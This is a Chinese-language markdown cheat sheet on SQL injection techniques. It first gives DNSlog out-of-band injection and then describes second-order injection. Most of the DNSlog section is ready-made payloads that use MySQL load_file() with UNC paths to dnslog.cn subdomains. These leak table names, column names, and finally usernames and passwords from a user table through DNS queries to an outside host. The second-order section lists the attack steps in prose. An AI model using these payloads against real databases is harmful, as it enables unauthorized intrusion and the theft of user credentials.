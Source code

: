### 【dnslog注入】

* **原理**
  * dnslog 平台会记录域名dns查询记录，通过我们把查询的结果和dns子域名拼接，发送给dnslog平台查询，就会记录我们的语句查询结果，从而快速提升延迟注入速度。

* **条件**
  * root权限（要借助load_file()函数）

* **实战**
  * dns 注入列表名
  ```sql
  and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='jian' limit 0,1),'.tunxf1.dnslog.cn\\abc'))),1,1)--+	#查表名
  ```
  ```sql
  and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='xycms' limit 0,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+
  ```
  ```sql
  and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='xycms' limit 1,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+
  ```
  
  * dns注入列列名
  ```sql
  and if((select load_file(concat('\\\\',(select column_name from information_schema.columns where table_name='user' limit 0,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+
  ```
  ```sql
  and if((select load_file(concat('\\\\',(select column_name from information_schema.columns where table_name='user' and TABLE_SCHEMA='dbname' limit 0,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+
  ```
  ```sql
  第二个列名
  and if((select load_file(concat('\\\\',(select column_name from information_schema.columns where table_name='user' limit 1,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+
  ```
  
  * dns注入列数据
  ```sql
  and if((select load_file(concat('\\\\',(select username from user limit 0,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+
  ```
  ```sql
  and if((select load_file(concat('\\\\',(select password from user limit 0,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+
  ```
  
### 【二阶注入】

* **使用条件**
  * 简单的来说，就是第一次注入时，开发者进行了编码等限制，无法直接进行注入，但是在数据库中保留了我们注入的语句，程序在其它地方再次调用保存着我们注入的语句时发生了注入，这就是二阶注入，有点类似存储型XSS漏洞的意思。

* **实战步骤**
  * 通过代码审计找到cms中可以写入数据的地方
  * 写入时测试使用不同特殊字符查看是否过滤
  * 攻击者在一个HTTP请求中提交恶意输入
  * 用于将恶意输入保存在数据库中。
  * 攻击者提交第二个HTTP请求
  * 为处理第二个HTTP请求，应用检索存储在后端数据库中的恶意输入，动态构建SQL语句。
  * 如果攻击实现，在第二个请求的响应中向攻击者返回结果。

